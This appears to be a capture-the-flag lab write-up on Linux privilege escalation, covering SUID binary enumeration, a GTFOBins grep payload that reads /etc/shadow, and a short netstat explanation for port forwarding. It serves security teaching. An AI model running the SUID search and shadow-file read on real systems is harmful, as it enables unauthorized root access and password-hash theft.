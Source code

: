 ## Unit 4 - SUID
- Set User ID (SUID) is a type of permission that allows users to execute a file with the permissions of another user.
- Assume we are accessing the target system as a non-root user and we found SUID bit enabled binaries, then those file/program/command can be run with root privileges.
- SUID abuse is a common privilege escalation technique that allows us to gain root access by executing a root-owned binary with SUID enabled.
- We can use this command to find all SUID file:
    ```bash
    $ find / -perm -u=s -type f 2>/dev/null

    # -u=s searches files that are owned by the root user.
    # -type f search for files, not directories
    ```

#### Which SUID binary has a way to escalate your privileges on the box?
```bash
manager@py:/$ find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/grep
/bin/ntfs-3g
/bin/mount
/bin/ping
/bin/umount
/bin/fusermount
...
```
Grep is exist at [gtfobins](https://gtfobins.github.io/gtfobins/grep/#suid) for SUID.

#### What's the payload you can use to read **/etc/shadow** with this SUID?
```bash
$ grep '' /etc/shadow

# according to https://gtfobins.github.io/gtfobins/grep/#suid
```

## [Bonus] - Port Forwarding
- Port forwarding is an application of network address translation (NAT) that redirects a communication request from one address and port number combination to another while the packets are traversing a network gateway, such as a router or firewall
- Port forwarding not only allows you to bypass firewalls but also gives you an opportunity to enumerate some local services and processes running on the box. 
- The Linux netstat command gives you a bunch of information about your network connections, the ports that are in use, and the processes using them.
    - To see all TCP connections, execute `netstat -at | less`. This will give you a list of running processes that use TCP. From this point, you can easily enumerate running processes and gain some valuable information.
- `netstat -tulpn` will provide you a much nicer output with the most interesting data.
